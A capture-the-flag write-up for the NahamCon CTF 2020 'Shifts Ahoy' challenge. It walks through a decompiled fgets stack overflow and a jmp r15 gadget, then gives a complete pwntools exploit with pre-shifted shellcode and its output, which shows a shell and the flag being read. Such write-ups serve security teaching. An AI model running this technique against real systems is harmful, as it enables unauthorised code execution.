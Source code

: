 # NahamCon CTF 2020

## Shifts Ahoy

> 100
>
> I created super advanced encryption software for us to communicate securely.
>
> Connect here:</br>
> `nc jh2i.com 50015`</br>
>
> [`shifts-ahoy`](shifts-ahoy)

Tags: _pwn_ _x86-64_ _shellcode_ _rop_ _bof_


## Summary

Buffer overflow to ROP your shellcode.  The ROP is tight, 7-bytes!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Almost nothing.  Choose your own adventure.


### Decompile with Ghidra

```c
void encrypt(char *__block,int __edflag)

{
  size_t sVar1;
  undefined4 in_register_00000034;
  char local_58 [72];
  int local_10;
  int local_c;
  
  printf("Enter the message: ",CONCAT44(in_register_00000034,__edflag));
  fgets(local_58,0x60,stdin);
  sVar1 = strlen(local_58);
  local_c = (int)sVar1;
  if (0x40 < (int)sVar1) {
    local_c = 0x40;
  }
  local_10 = 0;
  while (local_10 < local_c) {
    local_58[local_10] = local_58[local_10] + '\r';
    local_10 = local_10 + 1;
  }
  printf("\nEncrypted Message: %s\n",local_58);
  return;
}
```

The `fgets` buffer overflow vulnerability is in the `encrypt` function, and there is just enough overflow to work with.  `local_58` is `0x58` bytes from the return address and `fgets` is only going to read `0x60` bytes.  That leaves 8 bytes (7 if you count that `fgets` will replace the last byte with `0x00`, fortunately it needs to be zero), just enough to overwrite the return address.

_But with what?_

Looking at the `encrypt` disassembly:

```
        004012e1 49 89 e7        MOV        R15,RSP
        004012e4 90              NOP
        004012e5 c9              LEAVE
        004012e6 c3              RET
```

Just before `encrypt` returns, the stack pointer is copied (moved) to R15, which happens to have the address of `local_58` (check with GDB), so just send some shellcode and then `jmp r15`.  _Right?_

`jmp r15` check:

```python
>>> from pwn import *
>>> binary = ELF('shifts-ahoy')
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
>>> context.update(arch='amd64',os='linux')
>>> jmp_r15 = list(binary.search(asm('jmp r15')))[0]
>>> print("jmp r15",hex(jmp_r15))
jmp r15 0x4011cd
```

Good.

There's one last detail, the "encrypt" function, "encrypts" the first `0x40` bytes of our input to `fgets`, so we'll have to "decrypt" our payload so that when "encrypted" we get plaintext shellcode.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./shifts-ahoy')
p = remote('jh2i.com', 50015)

p.sendlineafter('> ','1')
p.recvuntil('Enter the message: ')

binary = ELF('shifts-ahoy')
context.update(arch='amd64',os='linux')
shellcode = asm(shellcraft.sh())
jmp_r15 = list(binary.search(asm('jmp r15')))[0]
print("jmp r15",hex(jmp_r15))

payload = b''
for i in range(len(shellcode)):
    payload += bytes([(shellcode[i] - ord('\r')) & 0xff])

payload += (0x58 - len(payload)) * b'A'
payload += p64(jmp_r15)

p.sendline(payload)
p.interactive()
```

After obtinaing shellcode from pwntools and the address of `jmp r15`, the shellcode will need to be "decrypted", IOW, subtract `\r` from each byte since `encrypt` will just add it back, then pad out to `0x58` bytes (distance from return address), and set the return address to the address of `jmp r15`.

Output:

```
# ./exploit.py
[+] Opening connection to jh2i.com on port 50015: Done
[*] '/pwd/datajerk/nahamconctf2020/shifts/shifts-ahoy'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
jmp r15 0x4011cd
[*] Switching to interactive mode

Encrypted Message: jhH\xb8/bin///sPH\x89\xe7hri\x814$1\xf6V^H\xe6VH\x89\xe61\xd2j;X\x0fNNNNNNNNNNNNNNNNAAAAAAAA@
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
flag.txt
shifts-ahoy
$ cat flag.txt
flag{captain_of_the_rot13_ship}
```

So `\r` is the 13th ASCII character, _rot?_, anyway, done.